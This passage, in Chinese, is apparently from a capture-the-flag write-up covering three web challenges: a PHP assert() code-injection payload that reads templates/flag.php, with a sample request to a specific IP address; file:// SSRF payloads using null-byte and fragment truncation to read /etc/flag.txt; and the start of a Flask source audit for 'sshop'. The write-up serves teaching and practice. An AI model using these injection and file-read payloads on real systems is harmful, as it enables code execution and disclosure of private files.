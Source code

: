 完成之后语句如下

```PHP
assert("strpos('' and die(file_get_contents('templates/flag.php')) or '', '..') === false") or die("Detected hacking attempt!");
```

读出flag.php的源码

![makeit_01.png](https://i.loli.net/2018/08/18/5b76f655ebe52.png)

其他payload

```
http://202.112.51.184:15080/?page=' and die(show_source('templates/flag.php')) or '
```



## simple ssrf

此题就是简单的考察一下file协议

payload

```
file://www.baidu.com/etc/flag.txt%00
```

```
file://www.baidu.com/etc/flag.txt#
```

经过测试，因为最后有个/，所以payload最后要有截断符

当输入框为

```
https://www.baidu.com/
```

执行后

![ssrf_01.png](https://i.loli.net/2018/08/18/5b76f65616b3f.png)

hint提示flag在etc/flag.txt,由于限制前面只能是www.baidu.com,也无所谓了，file是本地文件协议前面写啥都是读取本地文件

![ssrf_02.png](https://i.loli.net/2018/08/18/5b76f656493f7.png)

## sshop

此wp作者为同营小伙伴

- 推荐使用pycharm进行代码审计   

------

下载源码后，本地打开，全局搜索“flag”，发现就是这么真实：

```python
# 用户信息
@users.route('/')
def user():
    if not login_status_check():
        return redirect(url_for('users.login'))
    flag = open('./flag').read() if is_admin() else False
    username = session.get('username')
    user = User.query.filter_by(username=session.get('username')).first()
    return render_template('user.html', user=user, flag=flag, current_user=1)
```
